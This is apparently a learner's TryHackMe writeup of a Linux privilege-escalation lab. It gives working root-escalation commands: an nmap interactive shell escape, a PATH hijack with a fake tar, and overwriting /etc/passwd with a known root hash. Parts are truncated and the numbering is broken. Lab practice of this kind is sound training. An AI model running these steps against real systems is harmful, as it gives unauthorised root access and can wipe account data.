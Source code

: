 # 🛡️ TryHackMe - Linux Privilege Escalation Arena Writeup

> **Platform:** TryHackMe  
> **Room:** Linux Privilege Escalation Arena  
> **Difficulty:** Medium–Hard  
> **Objective:** Practice and master multiple Linux privilege escalation techniques in a realistic CTF-style environment.

---

## 🛠 Tools & Techniques Used

- `find`, `grep`, `ps`, `sudo`, `id`, `uname`
- SUID Binaries
- Wildcard Injection
- Cron Jobs
- PATH Variable Manipulation
- Writable `/etc/passwd`
- Kerne

 Looking for SUID/SGID Files

 find / -type f -perm /4000 2>/dev/null

Writable Files & Permissions

find / -writable -type f 2>/dev/null
ls -la /etc/passwd

Exploitation Techniques (Selected Examples)

 1. SUID Binary – Nmap

nmap --interactive
!sh

3. PATH Variable Exploitation

#!/bin/bash
tar -czf /tmp/backup.tar.gz /home/user/

Created a malicious tar in a custom PATH:

echo '/bin/sh' > tar
chmod +x tar
export PATH=.:$PATH


3. Writable /etc/passwd

openssl passwd -1 'newpass'

Copied hash and replaced root's password field in /etc/passwd:

echo 'root:$1$hashedPass$xyz:0:0:root:/root:/bin/bash' > /etc/passwd
su root


Key Takeaways

Enumeration is everything – always check SUIDs, PATH, crons, sudo, and writable files.

Misconfigurations = Escalation – one small mistake can lead to root.

Practice builds intuition – arenas like this are gold for real-world prep.


 Room Completed
Successfully escalated privileges using various techniques across multiple challenge scenarios.

✅ Skills Strengthened:

Post-exploitation mindset

Script abuse & privilege abuse

Linux internals and kernel-based exploits


[Umar Farooq]
Cybersecurity Learner | Ethical Hacking Explorer
GitHub: TheRealUmarFarooq


